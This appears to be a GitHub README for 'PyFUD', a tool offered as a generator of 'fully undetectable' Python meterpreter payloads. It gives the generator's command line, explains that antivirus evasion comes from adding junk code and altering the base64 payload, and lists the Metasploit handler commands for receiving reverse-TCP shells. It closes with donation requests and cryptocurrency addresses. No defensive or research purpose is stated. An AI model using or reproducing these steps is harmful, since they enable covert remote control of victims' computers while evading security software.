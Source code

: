 # PyFUD
![Image](/image_2023-02-01_232544745.png)  
fully Undetectable payload generator for metasploit  
Usage:
`pyfud.py --host HOST --output OUTPUT file name --port PORT`  
the payload is made fully Undetectable by adding some junk code into the main program and some changes are made on the base64 string
tested on windows 10  
metasploit setup:  
`
msfconsole
`
  
`
use multi/handler
`
  
`
set payload python/meterpreter/reverse_tcp
`
  
`
set lport {port used to make payload}
`
  
`
set lhost {your local ip adress or just 0.0.0.0}
`
  
`
run
`

  
Feel free, any cent counts will really help :)  
BTC address:168vrx5UuJNfNuvoYe6qhmAZCvePW4VPj2  
usdt address (binance trc20): TKP9Ch8JELiqn7n5VdfGMNqJwW2wpZAYi3
